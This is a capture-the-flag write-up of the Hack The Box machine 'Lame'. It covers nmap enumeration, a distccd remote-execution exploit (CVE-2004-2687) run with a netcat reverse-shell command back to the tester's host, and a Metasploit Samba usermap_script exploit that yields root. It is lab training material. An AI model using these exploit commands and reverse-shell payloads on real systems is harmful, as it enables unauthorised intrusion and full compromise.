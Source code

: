 ```yaml
---
title: CTF Writeup - HTB Lame
date: 2023-10-29
author: kei5uke
description: Writeup for HTB Lame
tags:
  - linux
  - metasploit
  - writeup
---
```


# Lame

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/lame]
└─# nmap -sC -sV -p- -T4 10.129.79.102 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 01:31 EEST
Nmap scan report for 10.129.79.102
Host is up (0.039s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.22
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-`k  Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m25s, deviation: 2h49m45s, median: 22s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-10-28T18:33:35-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.11 seconds
```

## FTP File Zilla

This is not writeable

## SMB

```bash
┌──(root💀kali)-[~/lame]
└─# smbclient -L 10.129.79.102                                                                                           1 ⨯
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Not accessible.

## Distccd

[(CVE-2004-2687) DistCC Daemon - Command Execution (Python)](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

Found interestring exploit.

```bash
┌──(root💀kali)-[~/lame]
└─# python3 distccd_rce_CVE-2004-2687.py -t 10.129.79.102 -p 3632 -c "nc 10.10.16.22 1403 -e /bin/sh"
[*] Connected to remote service
[!] Socket Timeout
```

![Screenshot 2023-10-29 at 02.06.44.png](Lame%201eaea493130c47ba805ffed580c9de33/Screenshot_2023-10-29_at_02.06.44.png)

I got first shell

# Shell Privilege Escalation

I tried a lot of things but I couldn’t find anything that makes me gain root privilege with this user.

[Samba "username map script" Command Execution](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

I decided to go back to enumeration and found interesting smb vulnerability and tried it with msfconsole in the end.

```bash
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/
                                      wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.211.55.20     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.129.79.102
RHOSTS => 10.129.79.102
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.16.22
LHOST => 10.10.16.22
msf6 exploit(multi/samba/usermap_script) > run
```

![Screenshot 2023-10-29 at 03.19.36.png](Lame%201eaea493130c47ba805ffed580c9de33/Screenshot_2023-10-29_at_03.19.36.png)

I got root.